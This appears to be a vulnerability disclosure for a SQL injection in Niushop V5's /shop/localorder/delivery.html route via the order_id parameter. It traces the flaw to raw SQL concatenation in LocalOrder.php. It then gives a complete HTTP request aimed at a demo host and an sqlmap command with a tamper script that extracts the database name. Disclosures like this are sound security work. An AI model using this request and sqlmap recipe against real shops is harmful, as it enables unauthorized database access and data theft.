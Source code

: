 Niushop V5 has a SQL injection vulnerability.

Official website: https://gitee.com/niushop-team/niushop_b2c_v5#https://gitee.com/link?target=https%3A%2F%2Fwww.kancloud.cn%2Fniucloud%2Fniushop_b2c_v5%2F3037616](https://gitee.com/niushop-team/niushop_b2c_v5#https:/gitee.com/link?target=https%3A%2F%2Fwww.kancloud.cn%2Fniucloud%2Fniushop_b2c_v5%2F3037616

Version: V5

Route: /shop/localorder/delivery.html

Injection parameters: order_id

#### 1.Vulnerability analysis

niushop_b2c_v5-master/niushop/app/model/order/LocalOrder.php
In the orderGoodsDelivery function, the native SQL statement concatenates $order_id.

Click in to track the function, niushop_b2c_v5-master/niushop/app/shop/controller/Localorder.php calls this method.

Construct a data packet to trigger the function (save as post.txt).

```
GET /shop/localorder/delivery.html?order_id=1*&deliverer=2&deliverer_mobile=1 HTTP/2
Host: uniapp.v5.niuteam.cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 0
Origin: https://uniapp.v5.niuteam.cn
Referer: https://uniapp.v5.niuteam.cn/shop.html
Cookie: think_lang=zh-cn; PHPSESSID=b85fe59b153b7c2539fc0188bed22f38
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

```

#### 2.Vulnerability verification and exploitation

Replace the cookie in post.txt after login

sqlmap --batch --tamper=space2comment -r post.txt --current-db

![image-20250218150440806](assets/image-20250218150440806.png)
